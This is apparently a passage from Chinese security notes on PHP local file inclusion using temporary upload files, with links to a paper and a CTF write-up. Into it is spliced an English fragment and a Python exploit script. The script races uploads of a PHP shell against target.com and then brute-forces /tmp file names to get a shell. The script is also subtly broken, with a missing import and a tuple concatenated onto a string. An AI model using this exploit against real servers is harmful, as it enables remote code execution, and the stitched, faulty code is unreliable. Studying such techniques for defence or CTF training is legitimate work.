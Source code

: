 php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。

另一种方法是配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。这个方法可以参考[LFI With PHPInfo Assistance](https://www.insomniasec.com/downloads/publications/LFI With PHPInfo Assistance.pdf)

类似利用临时文件的存在，竞争时间去包含的，可以看看这道CTF题：[XMAN夏令营-2017-babyweb-writeup](https://chybeta.github.io/2017/08/22/XMAN夏令营-2017-babyweb-writeup/)





Worlds Quitest Let's Play"

- Upload a file and trigger a self-inclusion.
- Repeat 1 a shitload of time to:
- increase our odds of winning the race
- increase our guessing odds
- Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
- Enjoy our shell.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```





### 包含上传文件

利用条件：千变万化，不过至少得知道上传的文件在哪，叫啥名字。。。

姿势：

往往要配合上传的姿势，不说了，太多了。



### 其余
